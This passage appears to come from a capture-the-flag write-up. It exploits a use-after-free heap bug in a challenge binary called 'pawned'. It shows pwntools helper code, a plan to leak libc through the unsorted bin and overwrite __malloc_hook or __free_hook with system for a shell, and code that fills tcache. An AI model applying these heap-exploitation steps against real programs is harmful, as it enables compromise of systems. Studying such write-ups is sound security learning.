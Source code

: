 ```py
    p.sendlineafter(': ', i2f(new_price) if type(new_price) == int else new_price)
    p.sendlineafter(': ', str(new_len))
    p.sendlineafter(': ', new_name)

def sell_item(name: bytes, price: int = 123, name_len: int = 0x80):
    sendchoice('S')

    p.sendlineafter(': ', i2f(price))
    p.sendlineafter(': ', str(name_len))
    p.sendlineafter(': ', name)

    if indexes.count(False) > 0:
        ret = indexes.index(False)
        indexes[ret] = True
        return ret + 1
    
    else:
        raise Exception("No index available")

def leave():
    sendchoice('L')

def print_items():
    sendchoice('P')

context.binary = elf = ELF('./pawned')
libc = ELF('./libc_2.31.so')
start()

p.interactive()
p.close()
```
## The plan
Our objective is to get a shell. In heap exploitation, it is done by overwriting one/few of `__malloc_hook`, `__free_hook`, `__realloc_hook` etc with `system` or `one gadget`. Because, these functions are used in the program and the overwritten value will be called on each invocation of the corresponding function.<br>
For this, we need an arbitrary write primitive and a libc leak. So, exploitations steps are: -
1. Get libc leak
2. Overwrite any hook with `system` or `one gadget`

## Getting libc leak
As I explained earlier, for libc leak, we use unsorted bin. As the program has a UAF vulnerability, just putting a chunk in unsorted bin is enough because we can read the libc pointers using the `print_items` option.<br>
To put a chunk in unsorted bin, we first need to fill tcache of the chunk's size, so it doesn't end up in tcachebin. Moreover, the chunk should have (actual) size greater than or equal to `0x90`, otherwise the chunk will end up in fastbin and we won't get libc leak.<br>
I chose `0x90` for libc leak (passing `0x80` will give a `0x90` sized chunk). Lets fill tcachebin of this size.<br>
For this, you just need to allocate `7` chunks and free them. Be careful, don't allocate a chunk and immediately free it because you will end up allocating and freeing the same chunk. Just allocate `7` chunks and free them later.
```py
tcache = [sell_item(str(i)*8) for i in range(7)]

for i in tcache: buy_item(i)
```
This fills tcachebin for size `0x90`.
```
Tcachebins[idx=1, size=0x30] count=7  ←  Chunk(addr=0x56207bb2a720, size=0x30, flags=PREV_INUSE)  ←  [...]                  
```